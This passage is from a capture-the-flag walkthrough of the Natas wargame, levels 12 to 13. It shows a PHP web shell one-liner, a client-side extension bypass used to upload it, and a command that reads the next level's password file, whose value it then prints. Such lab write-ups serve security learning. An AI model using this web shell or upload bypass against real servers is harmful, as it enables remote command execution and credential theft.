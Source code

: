 ```php
<?php echo shell_exec($_GET['e'].' 2>&1'); ?>
```

Also, the client renames the file to `.jpg`:

```html
<input
  type="hidden"
  name="filename"
  value="<?php print genRandomString(); ?>.jpg"
/>
```

This can easily be changed: it's client side...

Edit the `.jpg` in `.php` and upload the PHP one-liner.

We get:

> The file upload/f2ce8mjyzp.php has been uploaded

So we use the link passing `e` as parameter: natas12.natas.labs.overthewire.org/upload/f2ce8mjyzp.php?e=cat /etc/natas_webpass/natas13.

Get: `trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC`.

## Natas 13

### Credentials

Username: natas13

Password: trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC

URL: http://natas13.natas.labs.overthewire.org

### Message

For security reasons, we now only accept image files!

Choose a JPEG to upload (max 1KB):

### Solution

Source code:

```html
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas13", "pass": "<censored>" };</script></head>
<body>
<h1>natas13</h1>
<div id="content">
For security reasons, we now only accept image files!<br/><br/>

<?php

function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";
```